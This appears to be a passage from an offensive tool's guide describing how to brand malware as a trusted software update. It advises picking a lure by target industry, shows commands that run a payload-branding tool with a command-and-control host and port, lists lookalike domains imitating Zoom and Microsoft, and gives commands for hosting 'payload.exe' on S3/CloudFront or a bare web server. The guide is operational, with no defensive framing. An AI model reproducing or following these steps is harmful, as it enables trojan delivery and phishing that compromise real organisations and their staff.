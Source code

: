 ### Step 1: Choose Your Approach

**Ask yourself:**
1. What software does the target company use?
2. What would employees expect to see?
3. Is there a time-sensitive reason? (tax season, audit, etc.)

**Examples:**
- Finance company → Bloomberg/QuickBooks update
- Hospital → HIPAA compliance tool
- Law firm → Document encryption tool
- Tech company → VPN client update

### Step 2: Build the Payload

**Using a preset template:**
```bash
python3 tools/payload_brander.py --list-templates
python3 tools/payload_brander.py --template zoom --c2-host 192.168.1.100 --c2-port 443
```

**Custom branding:**
```bash
python3 tools/payload_brander.py \
  --custom \
  --company "Target Company Name" \
  --product "Internal Tool Update" \
  --c2-host YOUR_C2_SERVER \
  --c2-port 443 \
  --delivery-package
```

### Step 3: Set Up Infrastructure

**Register a convincing domain:**
```
Real: zoom.us
You: zoom-update.com
     zoom-downloads.net
     zoom-security.net

Real: microsoft.com  
You: microsoft-updates.com
     ms-security-updates.net
```

**Set up HTTPS hosting:**
```bash
# Option A: AWS S3 + CloudFront (looks very professional)
aws s3 cp payload.exe s3://your-bucket/update.exe
# Enable CloudFront CDN for https://d123xyz.cloudfront.net/update.exe

# Option B: Simple web server
python3 -m http.server 443
```
